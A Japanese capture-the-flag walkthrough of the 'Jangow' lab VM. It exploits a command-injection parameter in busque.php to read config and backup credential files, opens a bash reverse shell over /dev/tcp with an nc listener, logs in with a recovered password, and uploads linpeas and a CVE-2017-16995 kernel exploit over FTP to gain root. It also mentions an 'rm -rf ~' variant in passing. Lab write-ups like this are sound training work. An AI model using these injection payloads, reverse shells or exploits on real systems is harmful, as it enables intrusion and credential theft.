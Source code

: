 ## Jangow

### 目的
- user.txt <- システム内
- root.txt <- root

### ポートスキャンまで同じ
- 21,80
  - 22番ポートはcloseなので注意 

### webサイトを見る
- 色々なサイトを見て、リンクのパスにbuscarという気になるのがある
- サイトのコメントを見る

### buscarのサイトを見る
- `~.php?buscar=`これはコマンドが実行できるんではないか？実際、buscarでコマンドを実行できる
- `view-source:http://192.168.56.118/site/busque.php?buscar=ls -la`
- wordpressという気になるディレクトリがある
- `view-source:http://192.168.56.118/site/busque.php?buscar=ls wordpress -la`
- `view-source:http://192.168.56.118/site/busque.php?buscar=cat wordpress/config.php`
- パスワードとユーザ名がある

### ftpに接続する
- 取得したユーザとパスワードで接続するが失敗する

### パスワードの取得
- さらにサイトを巡回する、そこでまたユーザ名やパスワードをがある。webブラウザでもできるが、ここではコマンドで表示する
- `curl http://$IP/site/busque.php --get --data-urlencode "buscar=cat /var/www/html/.backup"`

### ftpに接続する
- 取得したユーザとパスワードで接続する
- サーバ内を探索する
- `bye`で抜ける


### bashのリバースシェルの確立
- ターミナルを開く
  - `nc -lvnp 443`

- 他のターミナルを開く
  - `curl http://$IP/site/busque.php --get --data-urlencode "buscar=/bin/bash -c 'bash -i >& /dev/tcp/ParrotOSのIP/443 0>&1'"`
  - ちなみに`rm -rf ~`のリバースシェルでもできる

- ここでプロンプトが返ってくる

### TTYシェルの奪取

- `python3 -c 'import pty; pty.spawn("/bin/bash")'` 
- `su jangow01`
- パスワードの入力 `abygurl69`この`l`は`L`の小文字

### システムの探索
- ユーザホームでフラグを探す
 

### Linpeasを転送する
- ParrotOS側のターミナルで実行する
- `ftp $IP`
- ユーザ名がjangow01,パスワード
- `cd /home/jangow01`
- `put linpeas.sh`
- `ls`
- `bye`

### Linpeasで脆弱性を探す
- jangowのユーザで実行する
- `ls -la linpeas.sh`
- `chmod +x linpeas.sh`
- ./linpeas.sh > output
- Linpeasの表示にCVE-2017-16995があるのでネットで検索して、exploitをコードをコピーする

### Exploitを転送
- ParrotOSの新しいターミナルでする
- ParrotOS側
  - jangowのディレクトリでする 
  - `cat > 45010.c`さっきコピーしたのをペーストする
- `ftp $IP`
- `cd /home/jangow01`
- `put 45010.c`
- `bye`

### Exploitを実行
- リモートシェル先のjangowユーザでする
- `gcc 45010.c -o exploit`
- ./exploit  
- ルートが返ってくる

### フラグファイルを開く
- `id`
- `cd /root`
- `cat proof.txt`
